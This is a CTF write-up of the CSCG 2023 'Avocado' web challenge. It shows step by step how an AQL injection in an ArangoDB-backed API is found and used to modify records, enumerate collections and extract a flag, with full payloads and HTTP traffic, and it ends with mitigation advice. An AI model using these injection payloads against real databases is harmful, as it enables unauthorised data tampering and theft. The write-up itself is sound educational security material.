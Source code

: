 ```yaml
---
layout: post
title: "CSCG 23 - Writeup: Avocado"
categories: ctf, cscg
author:
- Gehim
---
```

This year i participated in the [CSCG][CSCG] and managed to qualify for the finals again. All participants were required to submit three writeups to be eligible for the final round. I chooe this challenge because despite its simplicity only 32 people were able to solve it. Thus, i hope this writeup serves as an educational resource for newer players.

# Overview
- Category: Web
- Difficulty: Easy
- Author: TheVamp
- Solves: 32

> I love avocados! So I created a small website to show what different kinds of avocados exists. Hope you like it :) PS: Be aware that the setup take around 30 Seconds to boot.

We start by exploring the challenge setup. Unfortunately, we do not have the source code available for the challenge website, so we have to collect some intel manually. The website is a simple React application that provides information about different avocado types. Intercepting the network traffic with a proxy tool such as Burp, we can see that the application communicates with a backend API.

```
GET /api/avocado/Bacon HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:39:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 196
Access-Control-Allow-Origin: *
Connection: close

{"_key": "166", "_id": "avocado_items/166", "_rev": "_f9tH3rS---", "name": "Bacon", "shape": \
"oval", "skin": "smooth", "seed_size": "Medium/Large", "weight": "6-12 ounces", "size": \
"Medium/Large"}
```

Changing the avocado name to something else triggers an interesting error.

```
GET /api/avocado/Hallo HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:43:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 91
Access-Control-Allow-Origin: *
Connection: close

{"error": "Error in Query: FOR avc in avocado_items FILTER avc.name == 'Hallo' RETURN avc"}
```

The usual next step is to check whether we might be able to inject something in the query. So for example,
we try to insert an single quotation mark to escape from the string.

```
GET /api/avocado/Hallo' HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 14:43:26 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 91
Access-Control-Allow-Origin: *
Connection: close

{"error": "Error in Query: FOR avc in avocado_items FILTER avc.name == 'Hallo'' RETURN avc"}
```

It works. Apparently, special characters are not properly encoded or filtered. This means we can inject a
malicious payload here. However, the database at hand is not your usual SQL database. A quick search
for "avocado database" leads to [https://www.arangodb.com/][arangodb]. ArandoDB is a graph database and the
queries are written in the [ArangoDB Query Language (AOL)][AOL].

# Solution

Usually, in query injection attacks the remaining part of the query is removed by inserting a comment. Since comments in the AOL all start with a forward slash, this is not an option here. Thus, we have to make sure we craft valid queries. If we insert the following payload (do not forget to use proper URL encoding):

```
' OR true UPDATE { _key: 'references', name: "CSCG" } IN avocado_items LET name = '
```

The query executed will be:

```
FOR avc in avocado_items FILTER avc.name == '' OR true UPDATE { _key: 'references', name: "CSCG" } IN avocado_items LET name = '' RETURN avc
```

If we visit the website again, we can see that we successfully changed the name.

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:05:51 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 471
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": "CSCG"}
]
```

Ok, so are able add stuff to the collections, but where is the flag? Luckily, AOL comes with a [bunch of predefined functions][functions] we can use. The most important one is `COLLECTIONS()`, since it returns a list of all available collections in the database. Upon using the following payload:

```
' OR true UPDATE { _key: 'references', name: COLLECTIONS() } IN avocado_items LET name = '
```

We retrieve a list of collections:

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:13:52 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 844
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": [
        {"_id": "128", "name": "_analyzers"},
        {"_id": "143", "name": "_appbundles"},
        {"_id": "140", "name": "_apps"},
        {"_id": "131", "name": "_aqlfunctions"},
        {"_id": "146", "name": "_frontend"},
        {"_id": "125", "name": "_graphs"},
        {"_id": "137", "name": "_jobs"},
        {"_id": "134", "name": "_queues"},
        {"_id": "161", "name": "avocado_items"},
        {"_id": "185", "name": "flag_items_c50044c5"}
        ]
    }
]
```

There we go. The flag is inside the `flag_items_c50044c5` collection. Now we make use of subqueries to extract the flag with

```
' OR true LET flag = (FOR f IN flag_items_c50044c5 RETURN f) UPDATE { _key: 'references', name: flag } IN avocado_items LET name = '
```

Visiting the website again, we are greeted with a juicy flag.

```
GET /api/avocado/ HTTP/1.1
Host: XXXXXXXXXXXXXXXX-avocado.challenge.master.cscg.live:31337

HTTP/1.1 200 OK
Server: Werkzeug/2.3.3 Python/3.11.3
Date: Mon, 08 May 2023 15:17:23 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 594
Access-Control-Allow-Origin: *
Connection: close

[
    {"id": "avocado_items/166", "name": "Bacon"},
    {"id": "avocado_items/168", "name": "Fuerte"},
    {"id": "avocado_items/170", "name": "Gem"},
    {"id": "avocado_items/172", "name": "Gwen"},
    {"id": "avocado_items/174", "name": "Hass"},
    {"id": "avocado_items/176", "name": "Lamb Hass"},
    {"id": "avocado_items/178", "name": "Pinkerton"},
    {"id": "avocado_items/180", "name": "Reed"},
    {"id": "avocado_items/182", "name": "Zutano"},
    {"id": "avocado_items/references", "name": [
        {"_key": "yummy", "_id": "flag_items_c50044c5/yummy",
        "_rev": "_f9tH3r6---", "flag": "CSCG{yummy_4v0c4d0_db_gr4ph_1nj3ct10ns}"}
        ]
    }
]
```

# Mitigation
This is a very classic attack. Every input parameter that is used in a database query needs to be sanitized. It is of utmost importance to escape special character. That way we are unable to escape from the string and forge malicious payloads. Furthermore, it is considered good practise to disable error messages, or at least use a more generic one. This way, even if a potential vulnerability exists, it is more difficult to exploit it in practise.

[AOL]: https://www.arangodb.com/docs/stable/aql/
[CSCG]: https://cscg.de/
[arangodb]: https://www.arangodb.com/
[functions]: https://www.arangodb.com/docs/stable/aql/functions-miscellaneous.html